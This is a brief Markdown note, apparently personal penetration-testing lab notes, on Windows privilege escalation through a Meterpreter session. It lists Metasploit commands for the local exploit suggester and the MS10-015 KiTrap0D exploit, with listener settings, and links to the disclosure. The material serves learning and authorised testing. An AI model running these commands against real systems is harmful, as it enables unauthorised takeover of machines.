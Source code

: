 # Metasploit Meterpreter
---
- `run post/multi/recon/local_exploit_suggester`
	- ![[Pasted image 20250412132500.png]]
- `use exploit/windows/local/ms10_015_kitrap0d`
- `options`
- `set session 0`
- `set lhost tun0`
- `set lport 5555`
- `run`
	- ![[Pasted image 20250412132653.png]]

# Resources
- Kitrap0d Information - [https://seclists.org/fulldisclosure/2010/Jan/341](https://seclists.org/fulldisclosure/2010/Jan/341)